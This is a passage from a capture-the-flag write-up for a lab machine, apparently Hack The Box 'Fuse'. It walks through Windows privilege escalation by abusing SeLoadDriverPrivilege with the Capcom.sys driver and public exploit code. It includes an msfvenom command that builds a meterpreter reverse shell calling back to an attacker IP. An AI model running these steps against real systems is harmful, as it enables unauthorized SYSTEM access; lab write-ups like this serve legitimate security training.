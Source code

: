 # Privilege Escalation

## Collecting and uploading the files

If we do `whoami /priv`, we see that we have the `SeLoadDriverPrivilege`

![priv](/assets/img/posts/fuse/priv.png)

I found [this](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) article that explains how to abuse this privilege to get SYSTEM.

To abuse this privilege, we need to gather these 3 files from github:

[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

[ExploitCapcom.cpp](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom)

[EoPLoadDriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/)

Then we need to compile the `.cpp` files, I used Visual Studio Code on Windows. Finally we need to create our reverse shell payload, I used `msfvenom`.

```bash
finlay@kali:~/htb/fuse$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

Now that we have these four files, we need to upload them to the target. I created a temp folder in the root of the directory.

This is what you should have in the folder:

```powershell
*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/31/2020   7:16 AM          10576 Capcom.sys
-a----       10/31/2020   7:14 AM          15360 EOPLOADDRIVER.exe
-a----       10/31/2020   7:14 AM         275968 ExploitCapcom.exe
-a----       10/31/2020   7:14 AM          73802 shell.exe
```
